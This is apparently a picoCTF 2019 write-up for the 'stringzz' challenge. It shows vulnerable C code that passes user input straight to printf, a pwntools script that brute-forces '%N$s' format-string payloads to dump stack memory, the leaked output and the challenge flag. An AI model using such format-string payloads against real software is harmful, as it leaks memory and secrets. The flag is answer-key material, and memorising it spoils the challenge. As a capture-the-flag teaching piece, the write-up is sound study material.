

# stringzz (Binary)



<details>
	<summary>Source Code</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);
 
}
```
</details>

Looks like some functions to put "Now your input will be printed:\n" followed by a vulnerable printf that we can exploit using a format string attack

Lets start with some %x testing:

```
~/ctfwriteups/pico2019/binary/stringzz# ./vuln
input whatever string you want; then it will be printed back:

%x %x %x %x
Now 
your input 
will be printed:

a 4 5658e6f9 f7f4b000
~/ctfwriteups/pico2019/binary/stringzz# 
```

Definitely vulnerable and dumping memory

I decided to be lazy and see if we could brute force it with a simple python script

<details>
	<summary>Python Script</summary>

```python
#!/usr/bin/env python

from pwn import *

context.log_level = 'error'

for i in range(1000):
	p = process('./vuln')
	p.recv()
	try:
		p.sendline('%'+str(i)+'$s')
		p.recvuntil('\n\n')
		print (p.recv(), i)
		p.close()
	except:
		p.close()
</details>
```

<details>
	<summary>Data output</summary>

```
('%0$s\n', 0)
('\x81\xc3\xbb\x18\n', 3)
('l\x9d\x1d\n', 4)
('\xbc\x1e\n', 5)
("\x98\xeb\x9f\xff\x8e']Vp\x152X\x93)]V\x01\n", 6)
('\x83\xc4\x10\x90\x8b]\xfc\xc9\xc3U\x89\xe5S\x83\xec\x04\xe8\x1a\x01\n', 7)
('%8$s\n', 8)
('flag.txt\n', 9)
('r\n', 10)
('\x05\x83\x18\n', 11)
('l\x9d\x1d\n', 12)
('\xbc\x1e\n', 13)
('8\x0c\x96\xffM\xd8cVp\x95\x8aV\x80\n', 14)
('\x83\xc4\x10\x90\x8b]\xfc\xc9\xc3\x8dL$\x04\x83\xe4\xf0\xffq\xfcU\x89\xe5SQ\x83\xec0\xe8B\xfe\xff\xff\x81\xc3\x06\x18\n', 15)
('%16$s\n', 16)
('r\n', 17)
('\x05J\x18\n', 19)
('l\x9d\x1d\n', 20)
('\xbc\x1e\n', 21)
('\n', 22)
('\x83\xc4\x10\x8b\x83@\n', 23)
('%24$s\n', 24)
('\x88$\xad\xfb\xfa\xa7\xfdV\xfa\xa7\xfdV\xf0\xa7\xfdV\xf0\xa7\xfdV\xf0\xa7\xfdV\xf0\xa7\xfdV\xf0\xa7\xfdV\xf0\xb7\xfdV\n', 26)
('\x81\xc3\x06\x18\n', 27)
('l\x9d\x1d\n', 28)
('l\x9d\x1d\n', 29)
('(null)\n', 30)
('\x88\xa5\xba\xff\n', 31)
('\n', 32)
('\xbc\x1e\n', 33)
('\x8fe\xda\xff\xa3e\xda\xff\xd3e\xda\xff\xece\xda\xff\x01f\xda\xff\x0ef\xda\xff\x1df\xda\xff_f\xda\xffjf\xda\xffuf\xda\xff\x82f\xda\xff\x94f\xda\xff\xb9f\xda\xff\xcdf\xda\xff\xddf\xda\xff\x17g\xda\xff4g\xda\xff\x82g\xda\xff\x8ag\xda\xff\x9eg\xda\xff\xb1g\xda\xff\xc3g\xda\xff\xd8g\xda\xff\xefg\xda\xff\n', 34)
('%36$s\n', 36)
('fuck yeah\n', 37)
('\x88$\xad\xfb\xfaw%X\xfaw%X\xf0w%X\xf0w%X\xf0w%X\xf0w%X\xf0w%X\xf0\x87%X\n', 38)
('\x01\n', 40)
('(null)\n', 41)
('(null)\n', 42)
('\x83\xc4\x10\x83\xec\x0cP\xe8\x13o\x01\n', 43)
('l\x9d\x1d\n', 44)
('l\x9d\x1d\n', 45)
('(null)\n', 46)
('\x83\xc4\x10\x83\xec\x0cP\xe8\x13o\x01\n', 47)
('\x88%\xbf\xff\n', 49)
('\x8f5\xa8\xff\xa35\xa8\xff\xd35\xa8\xff\xec5\xa8\xff\x016\xa8\xff\x0e6\xa8\xff\x1d6\xa8\xff_6\xa8\xffj6\xa8\xffu6\xa8\xff\x826\xa8\xff\x946\xa8\xff\xb96\xa8\xff\xcd6\xa8\xff\xdd6\xa8\xff\x177\xa8\xff47\xa8\xff\x827\xa8\xff\x8a7\xa8\xff\x9e7\xa8\xff\xb17\xa8\xff\xc37\xa8\xff\xd87\xa8\xff\xef7\xa8\xff\n', 50)
```
</details>

Looks like our flag is the 37th spot in memory so %37$s SHOULD give us our flag on the local server, lets give it a shot

<details>
	<summary>Flag</summary>

picoCTF{str1nG_CH3353_0814bc7c}
</details>